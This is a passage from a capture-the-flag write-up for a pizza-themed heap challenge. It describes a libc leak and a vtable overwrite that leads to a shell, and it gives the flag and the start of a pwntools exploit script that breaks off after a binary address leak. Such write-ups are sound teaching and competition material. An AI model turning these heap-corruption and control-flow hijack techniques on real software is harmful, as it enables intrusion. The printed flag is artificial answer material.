After we have the binary's address, we trigger the bug again (after some heap massaging), to overwrite a `std::string`'s buffer pointer with the address of one of the binary's GOT entries. By now cooking the pizza, we leak this entry and calculate the base address of libc.

### Code Execution

After having leaked all required addresses, we want to control the execution flow. To do this we arrange a pizza object after the overflowing buffer and overwrite its vtable pointer, so that it points to a user-controlled buffer in the binary's .data segment. We place the address of a one-shot gadget in this buffer, trigger a vtable call by admiring the pizza, and pop a shell.

Flag: `OOO{cr1m1n4l5_5h0uld_n07_b3_r3w4rd3d_w17h_fl4gs}`

## Exploit Code

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

from pow import solve_pow

pineapple = u'🍍'.encode('utf-8')
tomato = u'🍅'.encode('utf-8')
illegal = [chr(0b11100000) + pineapple[:2], pineapple[2:] + 'A' * 15]

name_buf = 0x20c5e0
magic = 0xf02a4

binary = ELF('./mario')
libc = ELF('./libc.so.6')

context.binary = binary


def exploit():
    do_connect()

    # ----- leak binary -----

    create_user('bad')
    order(illegal)
    logout()

    create_user('good')
    order([tomato])
    cook('A' * 0x32)
    order(['A' * 0x12, 'A' * 0x12])
    logout()

    login('bad')
    cook('B' * 0x12)
    explain(flat('B' * 0x18, 0x21, 0, 'B' * 0x10, 0x51) + '\x11')

    login('good')
    cook('A')

    g.recvuntil('PIZZA #2')
    g.recvuntil('Adding ingredient: ')
    leak = u64(('\0' + g.recvuntil('\nAdding ingredient', drop=True)).ljust(8, '\0'))
    if leak:
        info("leak: 0x%x", leak)
        binary.address = leak - 0x20bc00
```
